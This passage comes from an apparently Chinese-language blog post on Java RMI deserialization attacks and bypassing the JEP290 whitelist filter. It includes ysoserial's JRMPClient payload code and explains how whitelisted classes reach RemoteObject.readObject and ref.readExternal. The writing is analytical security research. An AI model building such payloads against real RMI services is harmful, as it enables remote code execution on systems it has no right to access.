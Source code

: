 ```
        registry.bind("user",liming);
        System.out.println("registry is running...");
        System.out.println("liming is bind in registry");
        CountDownLatch latch=new CountDownLatch(1);
        latch.await();
    }
}

```

因为反序列化被白名单过滤掉了，所以客户端收到了一些错误....


![image-20241125210135374](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134826_rmi15.png)


### bypass JEP290


Bypass的思路应该是从上面白名单的类或者他们的子类中寻找复写readObject利用点。


我们通过getRegistry时获得的注册中心，其实就是一个封装了UnicastServerRef对象的对象:


![image-20241125210822759](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134825_rmi16.png)


当我们调用bind方法后，会通过UnicastRef对象中存储的信息与注册中心进行通信:


![image-20241125210920955](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134826_rmi17.png)


这里会通过ref与注册中心通信，并将绑定的对象名称以及要绑定的远程对象发过去，注册中心在后续会对应进行反序列化


接着来看看yso中的JRMPClient：



```
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint(host, port);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
Registry.class
}, obj);
return proxy;

```

这里返回了一个代理对象，上面用的这些类都在白名单里，当注册中心反序列化时，会调用到RemoteObjectInvacationHandler父类RemoteObject的readObject方法（因为RemoteObjectInvacationHandler没有readObject方法），在readObject里的最后一行会调用ref.readExternal方法，并将ObjectInputStream传进去：



```
ref.readExternal(in);

```
